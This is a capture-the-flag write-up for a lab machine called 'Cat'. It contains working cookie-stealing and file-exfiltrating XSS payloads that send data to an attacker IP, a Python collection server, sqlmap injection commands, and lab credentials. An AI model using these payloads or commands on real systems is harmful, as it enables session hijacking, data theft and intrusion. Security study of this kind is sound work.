Cat

Cat was a medium-difficulty Linux box featuring SSH on port 22 and a custom web application on port 80. Initial reconnaissance revealed a cat contest website with registration functionality, where I discovered an XSS vulnerability in the username field. By registering with a malicious JavaScript payload, I captured the admin's session cookies when they viewed submissions.
Directory enumeration exposed a .git repository, which I extracted using git-dumper to obtain the application's source code. Analysis revealed the backend used SQLite and identified a SQL injection vulnerability in the accept_cat.php endpoint. The vulnerable query directly concatenated user input: INSERT INTO accepted_cats (name) VALUES ('$cat_name'). Using sqlmap with the captured admin session, I extracted user credentials from the database and cracked the MD5 hashes, revealing credentials for user Rosa.
SSH access as Rosa provided limited privileges, but examining Apache logs revealed Axel's credentials (axel:aNdZwgC4tI9gnVXv_e3Q) from his repeated login attempts. After escalating to the Axel account, I discovered a local Gitea instance running on port 3000. Port forwarding revealed a vulnerable Gitea installation susceptible to stored XSS in repository descriptions.
Privilege escalation involved crafting a sophisticated XSS payload that used JavaScript's fetch API to exfiltrate sensitive files from an administrator-only repository. The payload was triggered when an admin reviewed repositories per the internal email workflow. This attack successfully captured admin credentials (admin:IKw75eR0MR7CMIxhH0) from a private employee management system, which provided root access to complete the machine.
User flag

Nmap scan reveals 2 ports. SSH on 22 and a website on 80.
XSS via the username field

There are a few buttons at the top, and clicking on join sends me to a registeration form.
I'll register an account, putting this XSS payload into the username field for testing.
<script>new Image().src="http://10.10.16.94:8000/xss?" + document.cookie;</script>
If the username is not sanitized properly, I'll be able to get cookies of any user who stumbles upon my username.
After succesfully registering, I can check the contest button without getting redirected back to the form.

I could try XSS here as well, in the cat name form. If someone were to check this submission, I could get their cookies.

However, some special characters are blocked in this form. I could deduct which ones are, but it could also be blocking all of them, which would waste a lot of time.
Instead, I'll simply send the form without meddling with it, remembering that my username still contains the XSS payload from earlier.
And after a moment, I got a callback on my python server.

Dumping the git repo
Getting the admin cookie didn't reveal anything right away. The admin endpoint was completely empty.

I decided to search for any files I could grab. I'll run dirsearch first without any additional flags.
dirsearch -u http://cat.htb/

While it was stopped at 51% due to sending too many requests, it found a .git directory and a config.php file. I can't grab the config file with curl, but I can dump the entire .git folder using gitdumper.
git-dumper http://cat.htb .git

SQL injection
# contest.php snippet
<?php
session_start();
include 'config.php';
// Message variables
$success_message = "";
$error_message = "";
// Check if the user is logged in
if (!isset($_SESSION['username'])) {
header("Location: /join.php");
exit();
}
// Function to check for forbidden content
function contains_forbidden_content($input, $pattern) {
return preg_match($pattern, $input);
}
// Check if the form has been submitted
if ($_SERVER["REQUEST_METHOD"] == "POST") {
// Capture form data
$cat_name = $_POST['cat_name'];
$age = $_POST['age'];
$birthdate = $_POST['birthdate'];
$weight = $_POST['weight'];
$forbidden_patterns = "/[+*{}',;<>()\\[\\]\\/\\:]/";
// Check for forbidden content
if (contains_forbidden_content($cat_name, $forbidden_patterns) ||
contains_forbidden_content($age, $forbidden_patterns) ||
contains_forbidden_content($birthdate, $forbidden_patterns) ||
contains_forbidden_content($weight, $forbidden_patterns)) {
$error_message = "Your entry contains invalid characters.";
} else {
// Generate unique identifier for the image
$imageIdentifier = uniqid() . "_";
These are the banned characters. Manual deduction would have taken quite a lot of time, and would not yield much results.
# config.php
<?php
// Database configuration
$db_file = '/databases/cat.db';
// Connect to the database
try {
$pdo = new PDO("sqlite:$db_file");
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
die("Error: " . $e->getMessage());
}
?>
The website is using an sqlite database, which is located at /databases/cat.db. This is an important detail that I'll note for later.
# accept_cat.php
<?php
include 'config.php';
session_start();
if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
if ($_SERVER["REQUEST_METHOD"] == "POST") {
if (isset($_POST['catId']) && isset($_POST['catName'])) {
$cat_name = $_POST['catName'];
$catId = $_POST['catId'];
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
$stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
$stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
$stmt_delete->execute();
echo "The cat has been accepted and added successfully.";
} else {
echo "Error: Cat ID or Cat Name not provided.";
}
} else {
header("Location: /");
exit();
}
} else {
echo "Access denied.";
}
?>
There is an SQLi vulnerability in the sql_insert query. It is passing the user controlled catName parameter into the query, without any kind of sanitization.
I'll run sqlmap in order to quickly find the injection point and extract data. First, I will map out what tables are there to enumerate.
sqlmap -u http://cat.htb/accept_cat.php --cookie='PHPSESSID=t0sjk4fh55tn5i1meqgcqsc3lj' -p catName --dbms=SQLite --data="catId=1&catName=test" --level=5 --tables

As expected, the users table is my target. I will rerun the same command, this time specifying the table to dump.
sqlmap -u http://cat.htb/accept_cat.php --cookie='PHPSESSID=t0sjk4fh55tn5i1meqgcqsc3lj' -p catName --dbms=SQLite --data="catId=1&catName=test" --level=5 --dump -T users --threads 4

I got a bunch of hashes, and they look like MD5 hashes. There's no need to try cracking them if that's the case, as I can use crackstation to quickly find passwords for these hashes.
https://crackstation.net/

rosa | soyunaprincesarosa
I'll try to SSH into the box with these credentials.

There was no user flag in Rosa's home directory.
Reading the apache logs
I ran a command to list every directory readable by Rosa.
find / -type d -readable 2>/dev/null
It returned lots of directories as a result, but I found one in particular that caught my eye.

Rosa can read the files in /var/log. I'll run a recursive grep in that directory, searching for mentions of other users who have a home directory on the box.
grep -r axel

It looks like Axel is constantly trying to login into the website via the join form. I'll quickly test whether this password works as his login for the box as well.
I can do so from the level of my SSH shell by using su.
axel | aNdZwgC4tI9gnVXv_e3Q
su axel

Root flag
I looked around for anything interesting, and I found a local service running on the box.

I will forward port 3000 to my box. I'll SSH into the machine as Axel, specifying a port to forward.
ssh axel@cat.htb -L 3000:127.0.0.1:3000
XSS on Gitea
After visiting the address in my browser, I saw a locally hosted Gitea instance.

With a version listed in the footer.
I searched for exploits tied to this version, and I found a stored XSS vulnerability.
https://www.exploit-db.com/exploits/52077
I need a valid user to login with on Gitea. Looking at the users tab, I can see 2 users I've already owned.
Axel's credentials work. I can now create repositories, so I'll try to confirm that the XSS vulnerability exists here.
Following the steps outlined in the exploit-db entry, I created a repo and added the XSS payload to its description.

Crafting the XSS payload, and the malicious mail
When I first logged in as Axel via SSH, I noticed that there was a new mail to read.

In linux, mails can be stored at /var/mail{user}. If I want to see emails sent to Axel, I'd read /var/mail/axel.
From rosa@cat.htb Sat Sep 28 04:51:50 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S4pnXk001592
for <axel@cat.htb>; Sat, 28 Sep 2024 04:51:50 GMT
Received: (from rosa@localhost)
by cat.htb (8.15.2/8.15.2/Submit) id 48S4pnlT001591
for axel@localhost; Sat, 28 Sep 2024 04:51:49 GMT
Date: Sat, 28 Sep 2024 04:51:49 GMT
From: rosa@cat.htb
Message-Id: <202409280451.48S4pnlT001591@cat.htb>
Subject: New cat services
Hi Axel,
We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository. Jobert will check if it is a promising service that we can develop.
Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.
From rosa@cat.htb Sat Sep 28 05:05:28 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S55SRY002268
for <axel@cat.htb>; Sat, 28 Sep 2024 05:05:28 GMT
Received: (from rosa@localhost)
by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: <202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management
We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.
I cannot reach the Employee-Management repo, but with XSS, I may be able to redirect whoever will check the mail to the endpoint and capture its contents.
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md').then(r=>r.text()).then(d=>fetch('http://10.10.16.94:8000',{method:'POST',body:d}))">View README</a>
(Note: To make this work, a file needs to be created in the repo. Contents do not matter, but without a file, there will be no response.)
Since this payload will attempt to POST data to my python server, I need to modify it a little. Regular python server does not support POST requests.
from http.server import BaseHTTPRequestHandler, HTTPServer
class XSSHandler(BaseHTTPRequestHandler):
def do_POST(self):
content_length = int(self.headers.get('Content-Length', 0))
post_data = self.rfile.read(content_length).decode('utf-8')
print("\n[+] Received POST data:")
print(post_data)
# Optional: Save to file
with open("exfiltrated.txt", "a") as f:
f.write(post_data + "\n\n")
self.send_response(200)
self.end_headers()
self.wfile.write(b"OK")
def log_message(self, format, *args):
return # Suppress default logging for cleaner output
if __name__ == "__main__":
host = "0.0.0.0"
port = 8000
print(f"[+] Listening on http://{host}:{port}")
httpd = HTTPServer((host, port), XSSHandler)
httpd.serve_forever()

I have succesfully received the README.md file, but it did not tell me anything useful.
Since this is a PHP website, the endpoint probably has an index.php file. I will try grabbing that next.
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(r=>r.text()).then(d=>fetch('http://10.10.16.94:8000',{method:'POST',body:d}))">View README</a>

admin | IKw75eR0MR7CMIxhH0
The admin was successfully redirected to the dashboard, and entered their credentials. I tried logging into the machine as Jobert, but the credentials did not work.

However, they weren't useless at all as they did work for the root user.

Rooted!